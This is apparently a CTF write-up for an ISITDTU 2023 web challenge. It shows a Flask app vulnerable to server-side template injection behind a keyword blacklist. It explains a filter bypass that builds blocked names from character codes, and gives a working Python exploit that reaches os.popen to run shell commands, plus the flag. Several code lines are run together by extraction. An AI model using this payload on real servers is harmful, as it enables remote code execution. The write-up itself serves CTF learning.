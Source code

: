 # thru_the_filter_test_flag

Source: ISITDTU CTF 2023
Technique: SSTI
Fields: Web
Notes: nhặt đc tool Bypass the WAF without knowing WAF(SSTI)

- SOURCE
    
    ```python
    from flask import Flask, request, render_template_string,redirect
    
    app = Flask(__name__)
    def check_payload(payload):
        blacklist = ['import', 'request', 'init', '_', 'b', 'lipsum', 'os', 'globals', 'popen', 'mro', 'cycler', 'joiner', 'u','x','g','args', 'get_flashed_messages', 'base', '[',']','builtins', 'namespace', 'self', 'url_for', 'getitem','.','eval','update','config','read','dict']
        for blin blacklist:
            if blin payload:
                returnTruereturnFalse@app.route("/")
    def home():
        if request.args.get('c'):
            if(check_payload(ssti)):
                return "HOLD UP !!!"
            else:
                return render_template_string(request.args.get('c'))
        else:
            return redirect("""/?c={{ 7*7 }}""")
    
    if __name__ == "__main__":
        app.run()
    ```
    
- The code shows that basic Server Side Include Injection (SSTI) vulnerability is **`{{ 7 * 7 }}`**
- But function **`check_payload`** already filtered so many and after looking the blacklist, i thought we need some special trick bypassing this filter.

Trick Bypass: **attr + format**

- Because they filter most of word that can ssti so we need to use attr and format to generate the string to bypass this.
- Example: **`attr("%c%c%c%c%c%c%c%c%c%c%c%c"|format(99,97,116,32,102,108,97,103,46,116,120,116))`** is generate to **`cat flag.txt`**
- The final exploit script:
    
    ```python
    import requests
    
    def gen(p):
        num_c = len(p)
    
        chrs = ""
    
        for iin p:
            chrs += str(ord(i)) + ","
        chrs = chrs[:-1]
    
        return f'attr(\"{"%c"*num_c}\"|format({chrs}))'
    
    # Define the URL and query parametersurl = 'http://localhost:1338'
    payload = f'{{()|{gen("__class__")}|{gen("__base__")}|{gen("__subclasses__")}() | {gen("__getitem__")}(367) | {gen("__init__")} | {gen("__globals__") } | {gen("__getitem__")}("o""s")|attr("po""pen")("%c%c%c%c%c%c%c%c%c%c%c%c"|format(99,97,116,32,102,108,97,103,46,116,120,116))|attr("re""ad")()}}'
    params = {
        'c': payload
    }
    
    # Define the headersheaders = {
        'Host': 'localhost:1338',
        'Upgrade-Insecure-Requests': '1',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
        'Accept-Encoding': 'gzip, deflate, br',
        'Accept-Language': 'en-US,en;q=0.9',
        'Connection': 'close'
    }
    
    # Send the GET requestresponse = requests.get(url, params=params, headers=headers)
    
    # Check the responseif response.status_code == 200:
        print(response.text)
    else:
        print(f"Request failed with status code: {response.status_code}")
    
    #ISITDTU{tough_times_create_tough_guys!@@%#0@}
    ```